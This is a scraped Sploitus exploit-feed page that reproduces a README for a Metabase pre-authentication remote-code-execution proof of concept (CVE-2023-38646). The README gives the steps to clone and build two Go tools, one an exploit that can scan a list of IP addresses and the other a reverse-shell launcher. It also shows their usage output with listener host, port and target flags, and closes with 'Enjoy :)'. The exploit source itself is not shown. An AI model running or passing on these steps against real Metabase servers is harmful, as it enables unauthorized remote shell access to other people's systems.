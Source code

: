 ```yaml
---
title: Exploit for Vulnerability in Metabase exploit
url: https://sploitus.com/exploit?id=B6908590-0FA4-5DDA-98EB-CC675B309D73&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-08-01
fetch_date: 2025-10-06T16:57:42.924153
---
```


# Exploit for Vulnerability in Metabase exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for CVE-2023-38646

2023-07-31 | CVSS 9.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=B6908590-0FA4-5DDA-98EB-CC675B309D73
# Poc-Metabase-Preauth-CVE-2023-38646

Ho to use?
```
λ  cve git clone https://github.com/LazyySec/CVE-2023-38646.git
λ  cve cd Poc-Metabase-Preauth-CVE-2023-38646
λ  Poc-Metabase-Preauth-CVE-2023-38646 git:(main) go build CVE-2023-38646-Exploit.go
λ  Poc-Metabase-Preauth-CVE-2023-38646 git:(main) ✗ go build Reverse-Shell.go
λ  Poc-Metabase-Preauth-CVE-2023-38646 git:(main) ✗ ./CVE-2023-38646-Exploit --help
Usage of ./CVE-2023-38646-Exploit:
  -ip string
    	IP address
  -list string
    	Filename containing list of IP addresses

λ  Poc-Metabase-Preauth-CVE-2023-38646 git:(main) ✗ ./Reverse-Shell --help
Usage of ./Reverse-Shell:
  -lhost string
    	Listener IP address
  -lport int
    	Listener port (default is 4444) (default 4444)
  -rhost string
    	Metabase server IP address (including http:// or https:// and port number if needed)
```
Enjoy :)
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)